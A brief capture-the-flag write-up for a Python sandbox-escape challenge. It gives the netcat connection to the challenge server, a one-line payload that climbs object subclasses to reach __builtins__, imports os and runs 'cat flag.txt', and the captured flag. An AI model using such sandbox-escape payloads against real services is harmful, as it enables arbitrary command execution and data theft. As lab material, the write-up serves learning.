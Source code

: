 **Context**

![image](context2.png)

**Connection** `nc 16.16.65.31 31000`

I use this payload
```python
print(().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('cat flag.txt'))
```

**Result**

![image](result2.png)

**FLAG:** `acdfCTF{35c4p3_pl4n_1337_w0rk3d_y35!!}`
